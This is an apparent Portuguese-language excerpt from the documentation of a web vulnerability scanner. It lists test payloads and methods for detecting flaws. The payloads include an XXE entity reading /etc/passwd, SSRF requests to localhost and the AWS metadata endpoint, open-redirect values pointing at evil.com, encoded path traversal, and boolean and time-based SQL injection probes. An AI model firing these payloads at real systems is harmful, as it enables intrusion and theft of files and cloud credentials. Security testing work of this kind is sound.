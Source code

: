 3. **XXE (XML External Entity)**
   ```python
   Payloads:
   - `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
   ```

4. **SSRF (Server-Side Request Forgery)**
   ```python
   Payloads:
   - `http://127.0.0.1:8080`
   - `http://169.254.169.254/latest/meta-data/` (AWS metadata)
   ```

5. **Open Redirect**
   ```python
   Payloads:
   - `//evil.com`
   - `https://evil.com`
   - `javascript:alert(1)`
   ```

6. **Path Traversal Ativo**
   ```python
   Payloads mais sofisticados:
   - `....//....//....//etc/passwd`
   - `..%252f..%252f..%252fetc/passwd`
   - Testar vários níveis de encoding
   ```

### 3. Técnicas de Detecção Avançadas

#### A) Análise Diferencial (Diff-Based)

Para detectar **Boolean-Based SQL Injection**:
```python
1. Enviar: ?id=1 AND 1=1  (deve retornar resultados)
2. Enviar: ?id=1 AND 1=2  (não deve retornar resultados)
3. Comparar: Se as respostas forem diferentes, vulnerável!
```

#### B) Time-Based Detection

Para SQL Injection cega:
```python
1. Enviar: ?id=1' OR SLEEP(5)--
2. Medir tempo de resposta
3. Se resposta > 5 segundos, vulnerável!
```

#### C) Content-Length Analysis

```python
1. Enviar payload normal
2. Enviar payload malicioso
3. Comparar tamanho das respostas
4. Diferenças significativas indicam vulnerabilidade
```
